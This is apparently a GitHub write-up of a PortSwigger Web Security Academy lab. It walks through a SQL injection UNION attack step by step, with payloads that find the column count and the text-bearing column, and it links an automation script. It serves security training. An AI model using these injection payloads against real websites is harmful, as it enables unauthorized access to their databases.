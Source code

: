 The goal of this lab is to figure out the number of columns returned by the query and then probing each column to test whether it can hold a specific string data, provided in the Lab.<br/>
To do so, we will incrementally submit a series of ```UNION SELECT``` payloads that place the string value into each column in turn until we no longer get an ```Internal Server Error```. 

**📍 Determining the number of columns:**
1. Intercept the request with Burp Suite proxy,
2. Send the request to repeater,
3. Start by injecting the ```category``` parameter with ```Gifts'+UNION+SELECT+NULL--``` which will return an error
4. And then ```'UNION+SELECT+NULL,NULL--``` which will also return an error
5. And finally ```'UNION+SELECT+NULL,NULL,NULL--``` which will output the results of the original query <br/>
```SELECT * FROM products WHERE category = 'Gifts'```
> ***The number of columns is then ```3```***

**📍 Finding columns containing text:**
1. Copy the string provided in the Lab:
![String Data](https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/main/SQL%20Injection/Lab%234/2023-02-17%2018_14_48-SQL%20injection%20UNION%20attack%2C%20finding%20a%20column%20containing%20text%20%E2%80%94%20Mozilla%20Firefox.png)
> In this case, the string data is: ```VnoDqj```
2. Start by injecting the ```category``` parameter ```Gifts'+UNION+SELECT+'VnoDqj',NULL,NULL--``` which will return an error. This means that the first column is not a string
3. And then ```Gifts'+UNION+SELECT+NULL,'VnoDqj',NULL--``` which will output the results of the original query and make the database print out ```VnoDqj```. This means that the second column is a string.
4. And finally ```Gifts'+UNION+SELECT+NULL,NULL,'VnoDqj'--``` which will also return an error

> The ```second column``` contains string data.

<div><video controls src="https://github.com/YounesTasra-R4z3rSw0rd/YounesTasra.github.io_Img/blob/main/SQLi_Lab4.mp4?raw=true" muted="false" width="800" height="500"></video></div>

### **<strong><font color="MediumPurple">Automated</font></strong>**

* You can find the source code <a href="https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/SQL%20Injection/Lab%234/Lab-4.py" target="_blank"><er>here</er></a>

* <a href="https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/SQL%20Injection/Lab%234/requirements.txt" target="_blank"><er>Requirements</er></a>:
```console
$ pip3 install -r requirements.txt
```
* Help Menu:

```console
$ python3 Lab-4.py --help
usage: Lab-4.py [-h] -u URL [-n]

Usage Example: python3 Lab-4.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help         show this help message and exit
  -u URL, --url URL  Enter the Lab URL
  -n, --no-proxy     Do not use proxy                               
```
![Lab-4](https://user-images.githubusercontent.com/101610095/220033508-30d31320-3651-4b64-ac7b-fca9ccee1b39.gif)

